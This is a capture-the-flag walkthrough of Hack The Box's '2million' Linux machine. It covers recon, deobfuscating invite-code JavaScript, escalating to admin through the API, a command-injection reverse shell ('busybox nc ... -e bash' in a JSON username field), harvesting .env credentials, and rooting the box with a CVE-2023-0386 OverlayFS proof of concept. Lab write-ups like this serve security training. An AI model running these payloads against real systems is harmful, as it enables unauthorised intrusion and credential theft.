








# 2million:

### Typology: _Linux_
---
We can start the machine as always with an nmap scan of the host:
```bash
nmap -sC -sV -p- --min-rate=1500 10.10.11.221

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Summarize:

| **_Port_** |                                         **_Description_**                                        |
|:----------:| ------------------------------------------------------------------------------------------------ |
| Port 80    | HTTP service on Nginx, we can retrieve the domain name __"2million.htb"__ to add at  __"/etc/hosts/"__ |
| Port 22    | SSH service is open but we don't have any credentials                                            |

### HTTP port 80:

We can visit the following URL __"http://2million.htb"__:



It's a good copy of Hackthebox's site, meanwhile we looking around the website we can start __"wfuzz"__ and __"feroxbuster"__:

- Wfuzz:
```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://2million.htb/ -H "Host:FUZZ.2million.htb" --hl 7
```
wfuzz doesn't find any new subdomains.

- Feroxbuster:
```bash
feroxbuster -u http://2million.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,bak,py,js,html,pdf -t 200

200      GET        1l        8w      637c http://2million.htb/js/inviteapi.min.js
200      GET       27l      201w    15384c http://2million.htb/images/favicon.png
302      GET        0l        0w        0c http://2million.htb/home => http://2million.htb/
405      GET        0l        0w        0c http://2million.htb/api/v1/user/login
200      GET       80l      232w     3704c http://2million.htb/login
405      GET        0l        0w        0c http://2million.htb/api/v1/user/register
200      GET       96l      285w     3859c http://2million.htb/invite
200      GET        5l     1881w   145660c http://2million.htb/js/htb-frontend.min.js
200      GET      260l      328w    29158c http://2million.htb/images/logo-transparent.png
200      GET       13l     2458w   224695c http://2million.htb/css/htb-frontend.css
200      GET       94l      293w     4527c http://2million.htb/register
200      GET       13l     2209w   199494c http://2million.htb/css/htb-frontpage.css
200      GET      245l      317w    28522c http://2million.htb/images/logofull-tr-web.png
403      GET        7l        9w      146c http://2million.htb/js/
403      GET        7l        9w      146c http://2million.htb/css/
200      GET        8l     3162w   254388c http://2million.htb/js/htb-frontpage.min.js
200      GET     1242l     3326w    64952c http://2million.htb/
```
feroxbuster find very interesting directories, stranger js script and cool api endpoints such as: __"/invite, /login, /register, inviteapi.min.js, /api/v1/user/login, /api/v1/user/register"__

We don't have any username or password so let's try on /register:



From the image above we can see that we must necessary to have a invite code, we can obtain one from /invite with as well a nice hint `Feel free to hack your way in :)`.

### Obfuscated JS:

First we can try to submit fake invite code but it returns __"Invalid invite code"__ from javascript, we can take a look at the source code and sees how it works this error:
```html
<script src="/js/htb-frontend.min.js"></script>
<script defer src="/js/inviteapi.min.js"></script>
<script defer>
    $(document).ready(function() {
        $('#verifyForm').submit(function(e) {
            e.preventDefault();

            var code = $('#code').val();
            var formData = { "code": code };

            $.ajax({
                type: "POST",
                dataType: "json",
                data: formData,
                url: '/api/v1/invite/verify',
                success: function(response) {
                    if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                        // Store the invite code in localStorage
                        localStorage.setItem('inviteCode', code);

                        window.location.href = '/register';
                    } else {
                        alert("Invalid invite code. Please try again.");
                    }
                },
                error: function(response) {
                    alert("An error occurred. Please try again.");
                }
            });
        });
    });
</script>
```
The first idea is to change this JS but there is Server-Side check but in a second moment we can see an interesting JS script that previously also we find it __"/js/inviteapi.min.js"__:
```js
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
It's an obfuscated JS, we can deobfuscated with [de4js](https://lelinhtinh.github.io/de4js/), paste the code and click Auto-Decode with the following result:
```js
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify', 
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}
```
Two new endpoints: __"'/api/v1/invite/verify"__ and __"/api/v1/invite/how/to/generate"__; to have a better view of the situation we can use __"Burpsuite"__ 

### Burpsuite:
We open burpsuite, we go to __"Proxy-> HTTP History-> Open browser-> browse to http://2million.htb/ -> search the request, send to Repeater-> right click change request method in POST-> add /api/v1/invite/how/to/generate and send"__



There is ciphertext encrypted in ROT13 we can use [CyberChef](https://gchq.github.io/) to decrypt it and it returns this text `In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate` so:



There is our invite code we copy and paste it in /invite the we can register and login

### Other API:



There is another webpage with some fake buttons the only working things are: __"Dashboard, Rules, ChangeLog and Access"__ the first three don't have anything to interact or any information to harvest instead of the fourth one that it allows to create and regenerate a fake VPN by two buttons called: __"Connection Pack-> http://2million.htb/api/v1/user/vpn/generate"__ and __"Regenerate-> http://2million.htb/api/v1/user/vpn/regenerate"__, also this time we should use burpsuite.

We login with the same account but this time in the burpsuite browser then go to __"Access-> click Regenerate-> send to repeater"__ there is the openvpn file, after some tries we can found something very valuable:



> First I try some GET requests to /api/v1/user/vpn, /api/v1/user and /api/v1

There is an entire menu of how to make the several requests, the one we are interested in is __""\/api\/v1\/admin\/settings\/update":"Update user settings""__ we must become Admin:



> Also this time I did some tries, first I sent a PUT request but I was missing the content type (application/json) then the two parameters (email and is_amdin) with their values

### Command Injection:

Okay we're admin, if we remember there was another API endpoint very suspicious called __"/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user""__:



> Remember application/json and username parameter

It generates a VPN file by passing our username and if it generates with a bash command let's try to add a semicolon and then a revshell:

listener:
```bash
python3 -m pwncat -lp 6666
```
then:
```json
{
"username":"abc;busybox nc 10.10.14.95 6666 -e bash"
}
```
### User flag:

We're in before to enumerate we can looking around the __"/var/www/html"__ folder indeed in __".env"__ there are credentials to admin user, we can now retrieve the user flag in __"/home/admin"__.

> First I saw index.php in the source it called a DB connection and it takes the credentials from a $envVariables from a $envFIle called .env

### Privesc:

It's time to enumerate in order to privesc; after some times spent looking around we can read a mail in __"/var/mail/admin"__

> I made an error; I spent some time searching around, but if you log in with SSH, a message will appear indicating that the admin user has new mail

```
I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.
```

It talks about a kernel exploit called OverlayFS at this point it's time to use google.

We can find a good POC [here](https://github.com/xkaneiki/CVE-2023-0386)

> this [blog](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/) explain what is it and which version is affected
>> From blog you can retrieve the CVE number CVE-2023-0386 a quick search "CVE-2023-0386 poc" prompt the POC

we can escalate with the following commands:

```bash
upload /tmp/poc.zip /tmp/poc.zip #pwncat command 

unzip poc.zip

make all

./fuse ./ovlcap/lower ./gc
```
at this point we need another terminal to run the final command so we can interrupt the previous one and set an SSH access:
```bash
cd /home/admin

ssh-keygen -t rsa -b 2048 #enter all the data it requests
cd .ssh
cat id.rsa.pub > authorized_keys
```
then:
```bash
chmod 600 id_rsa
ssh -i id_rsa admin@10.10.11.221
```
> Here I found out the mail

So we return in the fist terminal we run this command __"./fuse ./ovlcap/lower ./gc"__ and in the second terminale __"./exp"__, we're root and we can submit the last flag in /root.